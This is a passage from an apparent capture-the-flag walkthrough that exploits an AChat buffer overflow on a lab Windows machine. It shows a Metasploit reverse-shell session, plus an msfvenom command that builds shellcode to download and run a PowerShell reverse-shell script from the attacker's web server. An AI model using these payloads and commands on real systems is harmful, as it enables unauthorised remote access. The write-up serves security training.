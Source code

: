     
    
    root@kali# python achat-shell-8081.py
    ---->{P00F}!
    
    
    
    msf exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 10.10.14.218:8081
    [*] Encoded stage with x86/shikata_ga_nai
    [*] Sending encoded stage (267 bytes) to 10.10.10.74
    [*] Command shell session 1 opened (10.10.14.218:8081 -> 10.10.10.74:49157) at 2018-06-13 18:33:14 -0400
    
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Windows\system32>
    

#### alternative method: script + windows cmd + powershell

When working Windows hosts, I typically use the
[Nishang](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1`
script to get a shell. We can do that pretty easily here by changing the
command from simply launching calc to one that will invoke powershell and have
it call to us to get the shell to execute:

    
    
    root@kali# msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.159/Invoke-PowerShellTcp-8082.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/unicode_mixed
    x86/unicode_mixed succeeded with size 718 (iteration=0)
    x86/unicode_mixed chosen with final size 718
    Payload size: 718 bytes
    Final size of python file: 3442 bytes
    

Put that output into the script, and run it:

    
    
    root@kali# python achat-powershell-80-8082.py
    ---->{P00F}!
    
    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.74 - - [18/Jun/2018 08:36:35] "GET /Invoke-PowerShellTcp-8082.ps1 HTTP/1.1" 200 -
    
    
